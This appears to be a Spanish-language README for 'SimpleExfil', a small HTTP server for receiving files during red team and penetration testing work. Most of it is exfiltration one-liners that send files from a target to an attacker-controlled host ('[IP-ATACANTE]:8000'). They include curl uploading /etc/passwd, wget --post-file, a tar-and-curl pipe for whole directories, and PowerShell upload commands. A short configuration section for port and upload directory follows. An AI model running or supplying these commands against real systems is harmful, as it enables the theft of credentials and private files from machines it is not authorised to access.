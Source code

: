 # SimpleExfil
Un servidor HTTP simple para recepción de archivos diseñado para actividades de Red Team y Penetration Testing.

## Exfiltrar archivos desde sistema objetivo
bash# curl -X POST -F "file=@/etc/passwd" http://[IP-ATACANTE]:8000
bash# wget --post-file=/path/to/file http://[IP-ATACANTE]:8000

# Subir múltiples archivos
curl -X POST -F "file=@documento.txt" -F "file=@config.conf" http://[IP-ATACANTE]:8000

# Comprimir y subir directorio
tar czf - /home/user/documents/ | curl -X POST -F "file=@-;filename=documents.tar.gz" http://[IP-ATACANTE]:8000

# PowerShell (Windows)
powershell# Invoke-RestMethod -Uri "http://[IP-ATACANTE]:8000" -Method Post -InFile "C:\Users\user\document.txt" -ContentType "multipart/form-data"

# Usando WebClient
$wc = New-Object System.Net.WebClient
$wc.UploadFile("http://[IP-ATACANTE]:8000", "C:\Users\user\file.txt")

🔧 Configuración
Puedes modificar las siguientes variables al inicio del script:
pythonPORT = 8000              # Puerto de escucha
UPLOAD_DIR = "./uploads"       # Directorio de destino
